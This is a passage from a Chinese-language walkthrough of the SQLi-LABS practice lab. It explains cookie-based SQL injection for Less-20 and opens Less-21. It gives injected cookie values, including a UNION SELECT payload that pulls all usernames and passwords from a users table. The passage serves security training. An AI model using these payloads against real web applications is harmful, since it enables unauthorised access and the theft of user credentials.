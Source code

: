 + 根据错误信息我们可以推断出该语句为：

```sql
select column1, ... from table where cookie = '$cookie' limit 0, 1;
```

+ 使用`Cookie: uname=' or 1=1 --+`，发现注册成功然后使用`order by`关键字猜字段。
+ 已经找到注入点了可以参考Less-1的解法。

````sql
Cookie: uname=' union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
````

![image-20210929111046256](../../images/SQLi-LABS/image-20210929111046256.png)

## Less-21 Cookie注入基于字符串错误-复杂

+ 这里和Less-20一样需要登录。登录成功后我们可以在BurpSuite中查看请求的数据包。这里发现返回的Cookie给加密了，在BurpSuite可以查看到明文。
